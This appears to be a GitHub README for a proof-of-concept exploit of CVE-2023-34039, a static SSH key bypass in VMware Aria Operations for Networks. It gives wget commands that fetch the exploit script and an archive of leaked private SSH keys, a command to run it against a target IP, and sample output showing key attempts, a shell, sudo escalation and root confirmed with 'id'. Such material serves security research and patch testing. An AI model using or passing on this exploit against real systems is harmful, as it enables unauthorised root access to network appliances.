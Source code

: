 # CVE-2023-34039

![](https://img.shields.io/static/v1?label=Product&message=VMWare%20Aria%20Operations%20for%20Networks&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=from%20version%206.0%20to%206.10&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%209.8.%20SSH%20Auth%20Bypass&color=red)



For the full writeup, click [here](https://summoning.team/blog/vmware-vrealize-network-insight-rce-cve-2023-34039/)

### Install

```
wget https://raw.githubusercontent.com/getdrive/PoC/main/2023/VMWare_Aria_Operations_4_Networks_CVE-2023-34039/CVE-2023-34039-main/CVE-2023-34039.py https://github.com/getdrive/PoC/raw/main/2023/VMWare_Aria_Operations_4_Networks_CVE-2023-34039/CVE-2023-34039-main/keys.zip ; unzip keys.zip
```
### Usage
```
python CVE-2023-34039.py --target Target_IP

(!) VMWare Aria Operations for Networks (vRealize Network Insight) Static SSH key RCE (CVE-2023-34039)

(*) Exploit by Sina Kheirkhah (@SinSinology) of Summoning Team (@SummoningTeam)

(*) Trying key: keys/vrni-6.2.0/id_rsa_vnera_keypair_6.2.0_collector

(*) Trying key: keys/vrni-6.2.0/id_rsa_vnera_keypair_6.2.0_platform

(*) Trying key: keys/vrni-6.10.0/id_rsa_vnera_keypair_6.10.0_platform


********************************** ATTENTION **********************************
 NTP Service is not healthy.
 IMPACT: It may affect the proper working of other services.
 ACTION: Restore the service using 'ntp' CLI command.
********************************** ATTENTION **********************************
support@vrni-platform-release:~$ sudo -i
root@vrni-platform-release:~# id
uid=0(root) gid=0(root) groups=0(root)
root@vrni-platform-release:~# hostname
vrni-platform-release
root@vrni-platform-release:~# 

```

